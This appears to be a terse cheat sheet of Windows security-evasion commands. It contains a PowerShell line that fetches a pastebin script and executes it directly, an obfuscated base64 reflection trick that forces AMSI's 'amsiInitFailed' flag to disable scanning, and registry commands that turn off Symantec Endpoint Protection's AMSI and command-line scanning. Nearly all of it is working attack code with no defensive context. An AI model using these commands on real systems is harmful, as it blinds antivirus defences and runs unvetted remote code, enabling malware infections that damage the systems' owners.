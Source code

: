 test if AMSI is activated :

 - powershell "Invoke-Expression (Invoke-WebRequest
   http://pastebin.com/raw.php?i=JHhnFV8m)"

- [Reflection.Assembly]::LoadWithPartialName('System.Management.Automation.AmsiUtils')    | Out-Null

Maybe :

- [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v AMSIEnabled /t REG_DWORD /d 0 /f && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v CommandLineScanEnabled /t REG_DWORD /d 0 /f
